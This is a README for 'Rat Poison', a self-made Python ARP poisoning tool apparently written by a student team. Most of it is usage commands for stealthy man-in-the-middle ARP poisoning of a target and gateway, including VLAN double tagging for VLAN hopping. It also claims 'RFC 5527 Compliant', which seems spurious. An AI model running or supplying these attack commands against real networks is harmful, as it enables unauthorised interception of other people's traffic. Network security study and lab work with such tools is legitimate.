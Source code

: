 # Rat Poison
Self-made ARP poisoning tool. <br/>
Stealthy.<br/>
RFC 5527 Compliant.<br/>
capable of vlan double tagging + arp poison.<br/>

## Team Members
Patrick Kang Wei Sheng <br/>
Jerome Tan Kian Wei <br/>
Kevin Tan<br/><br/>


### Usage
####Help Menu 
```
python poison.py -h                 
```

####Shows all active host within the local network using ARP Broadcast
```
python poison.py -l 192.168.1.0/24  
```

####Prevents host machine from being discovered 
```
python poison.py --stealth
```


###Options Arguments
ARP poisoning mode without VLAN double tagging<br>
**\*To be used with -T, -M, -G**
```
python poison.py -P                                   
```
ARP poisoning mode with VLAN double tagging<br>
**\*To be used with -T, -M, -G, -TM, -MM, -GM --vlan1 --vlan2**
```
python poison.py -PV
```

####Arguments Usage
Specify target’s IP address
```
-T 192.168.10.10
```

Specify monitoring PC IP address
```
-M 192.168.10.11
```

Specify gateway/target2 IP address
```
-G 192.168.10.1
```

To specify target’s MAC address
```
-TM “AA:AA:AA:AA:AA:AA”
```

Specify monitoring PC MAC address
```
-MM “BB:BB:BB:BB:BB:BB”
```

Specify gateway/target2 MAC address
```
-GM “CC:CC:CC:CC:CC:CC”
```

To specify the first Dot1Q VLAN number
```
--vlan1 10
```

To specify second Dot1Q VLAN number
```
--vlan2 20
```


###Attacks Usages
####Nommal ARP Poisoning 
```
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

####Nommal ARP Poisoning with stealth 
```
python poison.py --stealth -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

####VLAN Hopping with ARP Poisoning (Native VLAN 10, Target VLAN 20)
\* Requires Target MAC, Monitor MAC,Gateway MAC with vlan1 and vlan2

```
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1 -TM "AA:AA:AA:AA:AA:AA" -MM "BB:BB:BB:BB:BB:BB" -GM "CC:CC:CC:CC:CC:CC" --vlan1 10 --vlan2 20
```


                                                 
